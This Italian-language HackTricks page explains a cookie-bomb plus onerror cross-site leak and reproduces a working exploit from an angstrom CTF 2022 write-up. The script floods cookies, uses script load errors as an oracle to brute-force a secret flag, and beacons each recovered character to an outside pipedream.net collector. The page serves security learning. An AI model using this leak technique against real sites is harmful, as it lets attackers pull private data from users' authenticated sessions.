 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

Il seguente **script** preso da [**qui**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) sfrutta una funzionalità che consente all'utente di **inserire qualsiasi quantità di cookie**, e poi caricare un file come script sapendo che la vera risposta sarà più grande di quella falsa e poi. Se ha successo, la risposta è un reindirizzamento con un URL risultante più lungo, **troppo grande per essere gestito dal server quindi restituisce un codice di stato http di errore**. Se la ricerca fallisce, non succederà nulla perché l'URL è breve.
```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
<input id="f" /><input name="search" value="a" />
</form>
<script>
const $ = document.querySelector.bind(document)
const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
let i = 0
const stuff = async (len = 3500) => {
let name = Math.random()
$("form").target = name
let w = window.open("", name)
$("#f").value = "_".repeat(len)
$("#f").name = i++
$("form").submit()
await sleep(100)
}
const isError = async (url) => {
return new Promise((r) => {
let script = document.createElement("script")
script.src = url
script.onload = () => r(false)
script.onerror = () => r(true)
document.head.appendChild(script)
})
}
const search = (query) => {
return isError(
"https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
)
}
const alphabet =
"etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
const url = "//en4u1nbmyeahu.x.pipedream.net/"
let known = "actf{"
window.onload = async () => {
navigator.sendBeacon(url + "?load")
await Promise.all([stuff(), stuff(), stuff(), stuff()])
await stuff(1600)
navigator.sendBeacon(url + "?go")
while (true) {
for (let c of alphabet) {
let query = known + c
if (await search(query)) {
navigator.sendBeacon(url, query)
known += c
break
}
}
}
}
</script>
```
{{#include ../../banners/hacktricks-training.md}}
